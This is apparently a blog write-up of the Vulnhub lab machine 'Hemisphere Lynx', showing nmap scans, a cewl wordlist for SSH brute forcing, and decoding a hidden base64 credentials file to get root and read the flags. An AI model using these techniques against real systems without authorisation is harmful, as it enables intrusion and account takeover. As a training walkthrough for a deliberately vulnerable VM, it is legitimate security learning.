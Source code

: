 ```yaml
---
title: Vulnhub - Hemisphere Lynx
description: My writeup on Hemisphere Lynx box.
categories:
 - vulnhub
tags: vulnhub cewl hydra ssh base64
---
```


![](https://i.imgur.com/Dayq2fI.png)

## Box Stats

| Box Info      | Details       | 
| ------------- |:-------------:| 
| Box Name :    | **Hemisphere Lynx**  | 
| Series :      | **Hemisphere**         |
| Difficulty :  | **Easy**             |   
| Release Date :| **1 Oct 2020**      |    
| OS :          | **GNU/Linux**        |   
| Maker :       | [d4t4s3c](https://github.com/d4t4s3c){:target="_blank"}     | 
| Download :    | [Hemisphere Lynx](https://www.vulnhub.com/entry/hemisphere-lynx,577/){:target="_blank"}      | 

## Summary

This was a really easy box, pretty basic stuff perfect to pass your time. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.101                                                                                                                                                               130 ↵
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 20:32 EET
Nmap scan report for lynx.zte.com.cn (192.168.1.101)
Host is up (0.00041s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:8F:D2:91 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.39 seconds
$ nmap -p 21,22,80,139,445 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 20:32 EET
Nmap scan report for lynx.zte.com.cn (192.168.1.101)
Host is up (0.00047s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 26:21:06:43:f3:27:b0:2f:df:eb:37:c0:26:d7:58:2a (RSA)
|   256 cd:a2:e4:63:31:78:79:a1:56:1d:1d:bd:85:ee:6b:fb (ECDSA)
|_  256 dd:bc:7e:1d:a3:ad:ff:aa:1a:3f:d3:68:a4:42:ea:1b (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title:  Lynx 
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
```
 
Let's start the enumeration with port 80, i don't understand the language of the text but the box desc says "Brute Forze" so we can simply generate a custom wordlist with `cewl` and run a brute force on SSH.

## Shell as johannes

```
$ cewl http://$ip/ | tee wordlist.txt
```

```
$ ssh johannes@$ip                                                                                                                                                               255 ↵
johannes@192.168.1.101's password: 

johannes@Lynx:~$ whoami;id
johannes
uid=1000(johannes) gid=1000(johannes) grupos=1000(johannes),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

## Shell as root

Under `/Desktop` we can see a hidden creds file:

```
johannes@Lynx:~/Desktop$ ls -la
total 12
drwxr-xr-x  2 root     root     4096 oct  1 13:39 .
drwxr-xr-x 10 johannes johannes 4096 oct  1 21:46 ..
-rw-r--r--  1 root     root       37 oct  1 13:39 .creds
```

It contains a base64 string, let's decode it:

```
johannes@Lynx:~/Desktop$ cat .creds 
MjBLbDdpUzFLQ2FuaU84RFdNemg6dG9vcg==
johannes@Lynx:~/Desktop$ cat .creds | base64 -d
20Kl7iS1KCaniO8DWMzh:toor
```

Seems like reversed, let's reverse it.

```
johannes@Lynx:~/Desktop$ cat .creds | base64 -d | rev
root:hzMWD8OinaCK1Si7lK02
```

Now we can simply switch to user root:

```
johannes@Lynx:~/Desktop$ su - root
Contraseña: 
root@Lynx:~# whoami;id
root
uid=0(root) gid=0(root) grupos=0(root)
```

## Reading the flag(s)

```
root@Lynx:~# cat /root/root.txt 
4xKWoV6QGHTetItzD7mI
root@Lynx:~# cat /home/johannes/user.txt 
uZ8iARX2aiDV1bNz7Dx4
```

One of the BEST vulnhub boxes i ever did.

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"} :blush:

Until next time keep pwning hard! :fire:
